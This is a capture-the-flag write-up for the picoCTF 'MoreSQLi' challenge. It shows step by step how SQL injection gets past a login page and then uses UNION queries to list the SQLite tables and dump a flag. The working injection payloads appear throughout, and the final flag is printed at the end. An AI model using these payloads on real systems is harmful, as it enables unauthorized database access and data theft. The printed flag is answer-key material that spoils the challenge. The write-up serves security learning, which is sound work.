 # MoreSQLi (SQL injection) 

## Description - 200 points

This was an SQLi challenge and i forgot to copy out the description before the compeition ended.

## Solution

We are initially provided with a URL that takes you to the login page

<p align="center"><img src="_images/1-login.png"></p>

I entered a standard username and password "admin:admin" in order to test what response we received from incorrect credentials and i was presented with the following.

<p align="center"><img src="_images/2-query.png"></p>

I created a pretty basic SQLi username and password combo to login which was successful and i was presented with the following screen.

```
administrator:true' or '1'='1'--
```

<p align="center"><img src="_images/3-loggedin.png"></p>

We can see a table with 3 columns containing text and a search function. The search bar is when i am going to inject my payload to try and access data in the database that i am not supposed to be able to access. You can note the hint on the 4th row about all tables, so i once i start getting back output, i will attempt to dump all the table names.

I created the following union command to test the data type of each column so i know which columns i can return the right data type. 
```
' UNION Select "one","two",123;
```

You can see that it successfully returned the input so it's vulnerable to SQLi

<p align="center"><img src="_images/4-inputTest.png"></p>

Now i am going to enumerate the version so i can get my syntax right. I crafted the following query
```
' UNION Select (select sqlite_version()),"two",123;
```
You can see below that it returns version: 3.31.1 

<p align="center"><img src="_images/5-version.png"></p>

So i did some research on syntax for this version of SQLite and crafted the following queries to enumerate the table names. The first query concatenates the table names into the first column which is no good if there are heaps of tables with large names.
```
' UNION Select group_concat(tbl_name),"two",123 FROM sqlite_master WHERE type ='table' AND tbl_name NOT LIKE 'sqlite_%25
```

<p align="center"><img src="_images/6.1-concatTableNames.png"></p>

This search returned each table name in a new row
```
' UNION Select name,"two",123 FROM sqlite_master WHERE type ='table' AND name NOT LIKE 'sqlite_%25
```

<p align="center"><img src="_images/6-tableNames.png"></p>

This query returns the statement used to create the table which indicates the column names and data types of each column. This can be repeated for each table by replacing the "more_table" at the end with another table name
```
' union SELECT 1,sql,3 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='more_table
```

you can see by this output that the table named "more_table" contains the columns "id" which is of integer data type and "flag" which is a TEXT data type. 

<p align="center"><img src="_images/7-colNames.png"></p>

So lets try and dump the "flag" column out of the table "more_table"

```
' UNION Select flag,"two",123 FROM more_table;
```

<p align="center"><img src="_images/flag.png"></p>

Profit

## picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}
